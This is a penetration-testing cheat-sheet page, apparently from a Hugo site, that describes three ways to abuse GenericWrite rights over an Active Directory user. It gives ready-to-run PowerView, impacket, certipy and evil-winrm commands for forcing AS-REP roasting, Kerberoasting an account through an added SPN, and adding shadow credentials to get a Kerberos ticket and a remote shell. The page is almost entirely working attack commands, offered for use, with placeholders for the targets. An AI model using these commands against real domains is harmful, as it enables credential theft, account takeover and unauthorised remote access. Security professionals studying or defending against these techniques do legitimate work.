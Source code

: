 ```yaml
---
title: "GenericWrite"
date: 2024-7-13
tags: ["Shadow Credentials", "Pass-The-Ticket", "Kerberoasting", "Genericwrite", "Powerview", "Asreproast", "Credential Dumping", "Ticket Granting Ticket", "Active Directory", "Windows"]
---
```


### Abuse #1 : Add UF_DONT_REQUIRE_PREAUTH bit to target user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Check target user

```console
Get-DomainUser <TARGET_USER> | ConvertFrom-UACValue
```

#### 3. Add UF_DONT_REQUIRE_PREAUTH bit

```console
Set-DomainObject -Identity <TARGET_USER> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### 4. AS-REP Roasting

```console
# In local linux machine
impacket-GetNPUsers '<DOMAIN>/<USER>' -no-pass -dc-ip <DC>
```

{{< /tabcontent >}}

---

### Abuse #2 : Kerberoasting by adding spn

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add a SPN

```console
# eg. MSSQLSvc/example.com:1433
setspn -a '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' '<DOMAIN>\<TARGET_USER>'
```

```console
# Check
Get-DomainUser '<TARGET_USER>' | Select serviceprincipalname
```

#### 4. Get SPN

```console
Get-DomainSPNTicket -SPN '<SERVICE>/<TARGET_DOMAIN>:<SERVICE_PORT>' -Credential $Cred
```

{{< /tabcontent >}}

---

### Abuse #3: Add shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Request a ticket

```console
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

#### 2. Add shadow credentials

```console
export KRB5CCNAME=<USER>.ccache
```

```console
# Pre-check (Optional)
certipy-ad find -username '<USER>@<DOMAIN>' -k -target <TARGET_DOMAIN>
```

```console
# Add shadow credentials
certipy-ad shadow auto -username '<USER>@<DOMAIN'> -account <TARGET_USER> -k -target <TARGET_DOMAIN>
```

#### 3. Remote

```console
# Edit '/etc/krb5.conf' (All uppercase)
[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

<br>

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

{{< /tabcontent >}}

